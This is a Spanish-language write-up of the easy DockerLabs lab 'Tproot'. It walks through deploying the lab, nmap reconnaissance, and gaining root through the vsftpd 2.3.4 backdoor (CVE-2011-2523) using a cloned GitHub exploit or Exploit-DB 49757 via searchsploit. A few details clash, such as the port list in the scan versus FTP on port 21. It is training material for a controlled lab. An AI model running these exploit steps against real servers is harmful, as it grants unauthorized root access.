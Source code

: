 # 🖥️ **Máquina: Tproot**

- **🔹 Dificultad:** Muy Fácil  
- **📌 Descripción:**  
  Laboratorio diseñado para reforzar habilidades básicas de explotación de servicios mal configurados, enfocado principalmente en **FTP** vulnerable y escalada de privilegios mediante configuración insegura de **sudo**.

- **🎯 Objetivo:**  
  - Explotar la vulnerabilidad en vsftpd 2.3.4 para obtener acceso como root.  
  - Identificar directorios ocultos en el servidor web.  
  - Comprender y aplicar diferentes métodos de explotación.  
  - Consolidar buenas prácticas de enumeración y explotación básica.

![Máquina Backend](/Tproot/Imagenes/Plantilla.png)

---

## 🚀 **Despliegue de la Máquina Tproot en DockerLabs**

### 1️⃣ Descargar y descomprimir el archivo

Utilizamos `7z` para extraer el contenido del archivo `.zip`:

```bash
7z e backend.zip
```

### 2️⃣ Ejecutar el despliegue automático

Desplegamos la máquina ejecutando:

```bash
sudo bash auto_deploy.sh tproot.tar
```

📌 **Nota:** Verifica que tengas Docker y 7z correctamente instalados en tu sistema.

### 3️⃣ Comprobar la conexión

Confirmamos que la máquina esté activa mediante un `ping`:

```bash
ping -c4 172.17.0.2
```

![PING](/Tproot/Imagenes/Ping.jpeg)

---

## 🧩 **Fase de Reconocimiento**

Realizamos un escaneo de puertos para identificar servicios activos:

```bash
nmap -p- --open -sS --min-rate 500 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![Reconocimiento](/Tproot/Imagenes/Escaneo.jpeg)

Posteriormente, enfocamos el escaneo en los puertos detectados:

```bash
nmap -p22,80 -sCV 172.17.0.2 -oN target
```

![Reconocimiento](/Tproot/Imagenes/Servicios.jpeg)

**Servicios detectados:**
- **Puerto 80 (HTTP):** Página web activa.
- **Puerto 21 (FTP):** Servicio FTP.

---

## 🌐 **Acceso a la Página Web**

Editamos el archivo `/etc/hosts` para facilitar el acceso:

```bash
sudo nano /etc/hosts
```

Añadimos:

```plaintext
172.17.0.2
```

Accedemos desde el navegador a `http://172.17.0.2`.

![Pagina](/Tproot/Imagenes/Pagina.jpeg)

Recopilamos información del sitio usando **WhatWeb**:

```bash
whatweb 172.17.0.2
```

---

## 📂 **Explotación del Servicio FTP**

La máquina ejecuta **vsftpd 2.3.4**, vulnerable a una puerta trasera remota.

### Opción 1️⃣ - Clonando un exploit desde GitHub

Buscamos un exploit funcional:

```bash
git clone https://github.com/nobodyatall648/CVE-2011-2523
```

![Reconocimiento](/Tproot/Imagenes/VulGit.jpeg)

Entramos al directorio y ejecutamos el script:

```bash
cd CVE-2011-2523
python3 vsftpd_2.3.4_exploit.py 172.17.0.2
```

![Reconocimiento](/Tproot/Imagenes/GitEje.jpeg)

Así obtenemos un acceso directo como **root**.

---

### Opción 2️⃣ - Usando SearchSploit

Utilizamos **SearchSploit** para encontrar la vulnerabilidad:

```bash
searchsploit vsftpd 2.3.4
```

![FTP_descargas](/Tproot/Imagenes/Herramienta.jpeg)

Descargamos el exploit:

```bash
searchsploit -m unix/remote/49757.py
```

![FTP_descargas](/Tproot/Imagenes/DescargaPy.jpeg)

Ejecutamos el script:

```bash
python3 49757.py 172.17.0.2
```

![FTP_descargas](/Tproot/Imagenes/VulHerr.jpeg)

Con esto también obtenemos acceso como **root**.

---

## 📊 Comparativa de Métodos de Explotación

| Herramienta        | Descripción | Ventajas | Desventajas |
|:-------------------|:------------|:---------|:------------|
| **GitHub (Clonar Exploit)** | Se clona un repositorio donde el exploit ya está probado y documentado. | Rápido, ejemplos funcionales, mejor explicado. | Puede depender de actualizaciones o estar mal mantenido. |
| **SearchSploit (Descargar Exploit)** | Utiliza una base de datos local de exploits para encontrar vulnerabilidades conocidas. | No requiere conexión tras la descarga, acceso organizado. | Puede necesitar ajustes manuales, menor documentación. |

---

## ✅ **Resumen del proceso:**

- Identificamos que el servicio FTP utiliza **vsftpd 2.3.4**, vulnerable a **CVE-2011-2523**.
- Explotamos la vulnerabilidad mediante dos métodos distintos: uno clonando un exploit de GitHub, y otro descargándolo con **SearchSploit**.
- Obtuvimos acceso **root** sin requerir técnicas de escalada de privilegios adicionales.
- Consolidamos conocimientos en escaneo, reconocimiento, explotación básica y herramientas de explotación.
